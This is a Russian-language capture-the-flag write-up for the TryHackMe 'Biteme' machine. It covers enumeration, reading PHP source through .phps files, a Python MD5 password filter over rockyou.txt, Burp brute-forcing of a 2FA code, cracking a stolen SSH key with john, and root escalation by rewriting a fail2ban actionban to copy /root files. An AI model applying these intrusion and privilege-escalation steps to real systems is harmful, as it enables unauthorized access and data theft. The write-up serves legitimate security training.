 # Biteme

:white_check_mark:  [**Php highlighting / .phps**](#php)

:white_check_mark: [**Md5 python auto convert**](#md5)

:white_check_mark: [**Fail2ban config(privesc)**](#fail2ban)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV biteme.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89:ec:67:1a:85:87:c6:f6:64:ad:a7:d1:9e:3a:11:94 (RSA)
|   256 7f:6b:3c:f8:21:50:d9:8b:52:04:34:a5:4d:03:3a:26 (ECDSA)
|_  256 c4:5b:e5:26:94:06:ee:76:21:75:27:bc:cd:ba:af:cc (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Сканируем директории командой:
```
gobuster dir -u http://biteme.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://biteme.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/17 19:18:42 Starting gobuster in directory enumeration mode
===============================================================
/console              (Status: 301) [Size: 310] [--> http://biteme.thm/console/]
```

Перейдем в директорию **/console**

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/1.png)

В коде страницы находим интересную функцию:
```
function handleSubmit() {
    eval(function (p, a, c, k, e, r) {
        e = function (c) {
            return c.toString(a)
        };
        if (!''.replace(/^/, String)) {
            while (c--) r[e(c)] = k[c] || e(c);
            k = [function (e) {
                return r[e]
            }];
            e = function () {
                return '\\w+'
            };
            c = 1
        };
        while (c--)
            if (k[c]) p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c]);
        return p
    }('0.1(\'2\').3=\'4\';5.6(\'@7 8 9 a b c d e f g h i... j\');', 20, 20, 'document|getElementById|clicked|value|yes|console|log|fred|I|turned|on|php|file|syntax|highlighting|for|you|to|review|jason'.split('|'), 0, {}))
    return true;
```

(Был исползован [deobfuscate js](https://lelinhtinh.github.io/de4js/) для придания более читаемого вида)

<a name="php"></a>

Нам оставили подсказку в виде **php file syntax highlighting**. Поискав в интеренете, находим [мануал](https://www.php.net/manual/ru/function.highlight-file.php). Стрыницы с подсветкой кода используют расширение **phps**.

Попробуем перейти в директорию **/console/index.phps**. В коде страницы находим следующее:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/2.png)

Мы видим еще один файл **functions.php**. Попробуем использовать расширение **phps**.

В коде элемента мы видим, как проверяются имя пользователя и пароль, а также использование файла **config.php**. 

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/3.png)

Перейдем в этот файл используя расширение **phps**. В коде элемента находим закодированное имя пользователя(username: jason_test_account).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/4.png)

В файле **functions.phps**, также можно увидеть, как проверяется пароль пользователя. Код преобразует пароль в md5 хэш и сравнивает его последние 3 числа со значением '001'.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/3.png)

<a name="md5"></a>

## Coding
Напишем код на питоне, который преобразует все пароли из словаря rockyou.txt в хэш md5 и сравнит их со значением '001'.

```
import hashlib

file = open('/usr/share/wordlists/rockyou.txt', 'r')
file_read = file.read()


words = list(file_read.split())

for word in words:
	hash = hashlib.md5(word.encode('utf-8')).hexdigest()
	if hash[-3::] == '001':
		print(word)
		print(hash)
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/5.png)

Найденные пароли:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/6.png)

Используем данные и логинимся. Нас встречает панель двухфакторной верификации, требующая 4-ех значный код. 

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/7.png)

Используя Burp intruder, подберем значение кода.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/8.png)

## Getting shell

Получаем доступ к аккаунту. На странице мы видим два поля, позволяющие просматривать директории и читать файлы сервера.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/9.png)

Просмотрев директории пользователей, находим приватный ключ.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/10.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/11.png)

Копируем его к себе на машину. С помощью ssh2john находим кодовую фразу. 
```
chmod 600 id_rsa

/usr/share/john/ssh2john.py id_rsa > hash

john hash -w=/usr/share/wordlists/rockyou.txt
```

Подключаемся к машине с помощью ключа.

## Privilege escalation

Просмотрим права пользователя.
```
sudo -l
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/12.png)

Видим, что мы можем перейти в аккаунт fred без пароля:
```
sudo -u fred bash
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/13.png)

<a name="fail2ban"></a>

Просмотрим права Фреда.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/14.png)

У нас есть права перезапуска fail2ban. Используем **find**, для поиска fail2ban в системе.
```
find / -name fail2ban 2>/dev/null
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/15.png)

Находим в интернете статью с представленной [уязвимостью](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/). Изменим значение actionban:
```
actionban = cp /root/root.txt /tmp/root.txt && chmod 777 /tmp/root.txt
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Biteme/16.png)

Получаем флаг рута.
